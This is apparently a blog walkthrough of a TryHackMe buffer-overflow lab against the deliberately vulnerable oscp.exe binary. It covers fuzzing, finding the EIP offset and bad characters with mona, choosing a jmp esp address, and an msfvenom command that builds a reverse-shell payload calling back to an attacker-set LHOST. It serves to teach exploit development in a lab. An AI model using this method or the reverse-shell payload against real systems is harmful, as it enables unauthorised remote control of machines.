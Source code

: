 ```yaml
---
title: BUFFER OVERFLOW PREP  
published: true
---
```

<br/>
# [](#header-1)BUFFER OVERFLOWS - Explained by an average IT guy
<br/>
<br/>
![](images/Buffer-Overflow-Prep/BOP_Completion.png)
<br/>
<br/>
When I first read a write-up of someone explaining how a buffer overflow worked, my brain melted and poured out of my ears. After doing some research, I am able to keep all of my brain matter intact and inside my cranium. In this write-up, I will walk through the first part of Tib3rius' 'Buffer overflow prep' room on Tryhackme (excellent room, thanks for making it!).
<br/>
<br/>
## oscp.exe OVERFLOW1
<br/>
<br/>
Right off the rip, the best resource that I found to explain in detail what the heck is going on when buffers are overflowed is the following blog post by 0xRick:
<br/>
<br/>
[Binary Exploitation - Buffer Overflow Explained in Detail](https://0xrick.github.io/binary-exploitation/bof1/)
<br/>
This explains in much better detail how a stack is structured and why buffer overflow's are a thing better than I ever could.
<br/>
Step one is to open immunity debugger:
<br/>
<br/>
![](images/Buffer-Overflow-Prep/1.png)
<br/>
<br/>
One additional plugin that will be used is mona. Mona.py is a (healthy 19,000+ line) python script that, when integrated with immunity, allows the user to use a variety of commands to search through the application that is being debugged. It is important to note that mona.py will ONLY work with python 2.7. To add the mona plugin to immunity debugger, download the following from Github:
```
https://raw.githubusercontent.com/corelan/mona/master/mona.py
```
<br/>
<br/>
and place that script in the 'PyCommands' folder in the immunity debugger application. Then set a working directory by entering the following command at the input field at the bottom of immunity:
```
!mona config -set workingfolder c:\mona\%p
```
<br/>
Now probably the most important part comes next, make sure you didn't already break something by testing that the vulnerable program is running properly:
<br/>
![](images/Buffer-Overflow-Prep/2.png)
<br/>
Great, the first step for exploiting a binary is fuzzing. Fuzzing is the process of sending malformed data in an automated fashion to a (hopefully) vulnerable application in an effort to see at what point it fails. Fuzzing is used to gather information regarding a target application. Sometimes, fuzzing can lead to accidental exploitation which is extra effecient. The fuzzing script that was written by Tib3rius is the following:
<br/>
<br/>
![](images/Buffer-Overflow-Prep/3.png)
<br/>
<br/>
So we have a fuzzing script, but what is it doing? Fuzzer.py attempts to manifest a connection with the machine running the binary and then for the first iteration of the while loop sends the prefix "OVERFLOW1" to specify which program we are trying to run. Then it attempts to pass 100 "A" characters to the binary and will continue to do so until it crashes. Knowing how many bytes the binary can handle before it crashes is what we are trying to learn. Running fuzzer.py shows us the following:
<br/>
![](images/Buffer-Overflow-Prep/4.png)
<br/>
So now we know that it takes 2000 bytes to crash the OVERFLOW1 binary, the next step is beginning to craft the exploit. The next script we have to create (when I say create what I really mean is copy and paste from Tib3rius' exploit.py script) is what will exploit the fact that this binary crashes after 2000 bytes.
<br/>
![](images/Buffer-Overflow-Prep/5.png)
<br/>
Awesome, we have some more python to take a look at. We see some familiar functionality from fuzzer.py, we connect to the machine and make sure we are running the OVERFLOW1 binary. We see that we send the "buffer" variable to the binary which is a combination of the prefix, offset, overflow, retn, padding, payload, and postfix variables. I'll do my best to explain what each of these are as we go in and edit them and develop the exploit script. The next step is to generate a value for the payload variable using the following metasploit framework ruby script:
<br/>
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l NUMBER
```
<br/>
Replacing 'NUMBER' with the amount of bytes (NOTE: it is recommended to add more bytes in incrememnts of 100 to this number just in case) it took to crash the binary will generate a long string of lowercase/uppercase characters, copy and paste the returned value into the payload variable of the exploit.py script:
<br/>
![](images/Buffer-Overflow-Prep/6.png)
<br/>
So instead of sending 2000 "A" characters we are now sending a pattern of unique characters.  We do this so we can search where exactly where crashes occur since we now have a pattern to search through instead of the same character over and over. Now we restart the program and run the exploit.py script with the updated payload. Now that we crashed the program, we use mona to search for more information:
<br/>
```
!mona findmsp -distance NUMBER
```
<br/>
Since I generated a pattern that was 2400 bytes long, my mona search will be 2400 for the distance option:
<br/>
![](images/Buffer-Overflow-Prep/7.png)
<br/>
The big takeaway from the above image that we are interested in is what mona was able to find when taking look at the registers. The two registers that are very important are the EIP register and ESP register. EIP is short for "Extended Instruction Pointer" it tells where in memory the computer should look for the next command. Our goal is to exploit this functionality and have EIP point some kind of instruction that was the result of us overflowing the buffer and writing our own special instructions into memory. ESP stands for "Extended Stack Pointer" and it points to the location of the stack at any time. Disclamer: I am not an expert at assembely/x86-architecture/linear data structures and do not have in depth knowledge of these topics, thus the explination of these registers are very high-level.
<br/>
<br/>
Thanks to mona, we know at what offset of the EIP register, we now go into our exploit.py and do 2 things. First, make the payload value a blank string. Then change the offset to whatever value mona was able to find (in this case it would be 1978). Great so in its current state our exploit.py should send 1978 "A" characters to the program.
<br/>
<br/>
![](images/Buffer-Overflow-Prep/8.png)
<br/>
 Now we are ready for the next step, finding bad characters.
<br>
The first step in finding which characters are bad and should be excluded from the payload is generating a byte array using mona. Bad characters are bad becuase they negatively affect the buffer in some way. A prime example of a bad character is "\x00" which is the hexidecimal encoded "null byte" character. When the binary is reading the string (in C/C++) that includes a null byte character, it will result in termination of the buffer at that point. This would result in only a portion of our payload actually being written in memory. We want to identify which characters cause behavior like this and remove them from our payload. The following mona command can be used to generate a byte array that will help us investigate for bad characters:
<br/>
```
!mona bytearray -b "\x00"
```
<br/>
This will create two files in your previously defined working directory called bytearray.bin and bytearray.txt. Next we run the following python to generate a string of characters that excludes the null byte by default:
<br/>
```
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```
<br/>
We now change the value of our payload variable once again to the newly generated string of hex encoded character values. One additional change we have to make is editing the value of the retn variable. "retn" in this script stands for return address. We know that by sending 1978 "A" chars to the binary will get us to the offset of the EIP register but we still haven't overwritten the EIP register. The return address will be the value that we will use to overwrite EIP. We will change it to be a "BBBB"
<br/>
![](images/Buffer-Overflow-Prep/9.png)
<br/>
Awesome! Our exploit development is going well. Now we want to run the exploit against the binary again. After doing so we can see some interesting changes in immunity:
<br/>
![](images/Buffer-Overflow-Prep/10.png)
<br/>
There are two things to take note of. First at the bottom, we can see that it says we have an access violation when executing 42424242. This proves that the EIP register has been overwritten with four "B" characters as 42 is the unicode hex char code for B. The second is the address of the ESP register, in this case it is 017DFA30. We want to examine the ESP register as this is what comes directly after the EIP register and thus where all of our payload char values will be written to. To examine the ESP register, you can right click the address and select "follow in dump". You should see hexidecimal representation of the bytes that were used in the payload variable however some characters are missing. The first one that we can't seem to find is 07 and the next is 08. It's possible that these are bad chars, we can investigate further using the following mona command:
<br/>
```
!mona compare -f C:\mona\oscp\bytearray.bin -a 017DFA30
```
<br/>
<br/>
![](images/Buffer-Overflow-Prep/11.png)
<br/>
So we have 00 07 08 2e 2f a0 a1. We know that the null byte is for sure a bad character but what about the rest? Notice how a few of these chars seem to include the char that follows it? 07 is before 08, 2e is before 2f, and a0 is before a1. It is likely that 07, 2e, and a0 all are responsible for overwritting the character that would come next in the sequence. This is why 08, 2f, and a1 show up as bad chars in mona but might not be bad characters. From here we can start removing the listed characters from our exploit string, create a new byte array with the bad chars we find, and keep running the exploit and checking the ESP register's (Note that the address of the ESP register may change when running the exploit) status to see where it crashes. For the current example we can assume (correctly) that bad chars will be "\x00\x07\x2e\xa0". We would do this until we see the following using mona:
<br/>
![](images/Buffer-Overflow-Prep/12.png)
<br/>
<br/>
Awesome, we are free from any bad characters that could ruin our payload. Now it's time to find a jump point. Using the following mona command and our newly found list of bad chars:
<br/>
```
!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"
```
<br/>
What this will do is find instructs in the binary that will perform "jmp esp" or something equivalent in addresses that do not contained the bad chars you state after -cpb. Select Window > Log Data to view what mona finds. Here are the results:
<br/>
![](images/Buffer-Overflow-Prep/13.png)
<br/>
Nice, now we can edit the exploit.py script and edit the "retn" variable to use an address that mona returned. I used the first one (625011af) for this example. Since the system is little endian, we need to make sure this value is interpreted correctly. This is why we must write the address in reverse order, the value of retn should be "\xaf\x11\x50\x62". If we wanted to test that the address is working we can make the payload a blank string, set a breakpoint at that address and see what happens after running the exploit. 
<br/>
![](images/Buffer-Overflow-Prep/14.png)
<br/>
<br/>
Now we are getting to the end of the process it is time to generate a payload. Using the following msfvenom commmand and your updated IP address will create a reverse shell payload.
<br/>
<br/>
```
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c
```
<br/>
You could generate python code by replacing the c at the end of the command with py but the c code that is created is cleaner and is still valid. Great we have our payload, now one final modification we must make before we get a reverse shell is prepending nops to the payload. We need to do this if an encoder was used to create the payload. With the command above, the shikata_ga_nai encoder was used so we will need to prepend nops to the payload. This can be done by editing the value of the "padding" variable to be equal to "\x90" * 16. 
<br/>
![](images/Buffer-Overflow-Prep/16.png)
<br/>
Moment of truth, listen on the port specified in the payload and run the exploit!
<br/>
![](images/Buffer-Overflow-Prep/17.png)
<br/>
It worked! From fuzzing to a reverse shell, this would be the process for exploiting a simple stack buffer overflow. Thanks for reading!
